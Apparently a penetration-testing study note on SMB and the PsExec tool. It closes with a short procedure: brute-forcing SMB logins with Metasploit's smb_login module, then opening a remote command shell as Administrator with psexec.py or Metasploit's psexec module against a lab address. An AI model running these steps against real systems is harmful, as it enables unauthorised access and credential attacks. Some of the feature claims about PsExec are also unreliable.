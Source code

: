 # Exploiting SMB with PsExec

### SMB
- File sharing protocol
- Port 445
- Share printers for example
- SAMBA is the open-source Linux implementation of SMB, which allows Windows systems to access Linux shares and devices

### PsExec
- Similar to RDP
- PsExec is a command-line tool that allows you to run processes on remote computers. It is part of the Sysinternals suite of tools, which are a collection of free utilities for Windows system administration.
- PsExec can be used to run a variety of tasks, including:
	-   Starting a remote command prompt
	-   Running a remote script
	-   Executing a remote program
	-   Logging on to a remote computer as a different user
- PsExec is a powerful tool that can be used for a variety of purposes, both good and bad. It can be used by system administrators to manage remote computers, but it can also be used by malicious actors to gain unauthorized access to systems.
- Some of the features of PsExec:
	-   Can run processes on remote computers, including those running different operating systems
	-   Can run processes as different users
	-   Can be used to start a remote command prompt
	-   Can be used to run scripts on remote computers
	-   Can be used to log on to remote computers
### Process with PsExec
- `service postgresql start && msfconsole`
- Search `smb_login`
- use 
- set options -- rhosts, userfile, passfile,
- run
- open PsExec
- `psexec.py Administrator@10.10.10.10 cmd.exe`
- boom, you are inside the system
- Metasploit has a PsExec module as well
- `exploit/windows/smb/psexec`
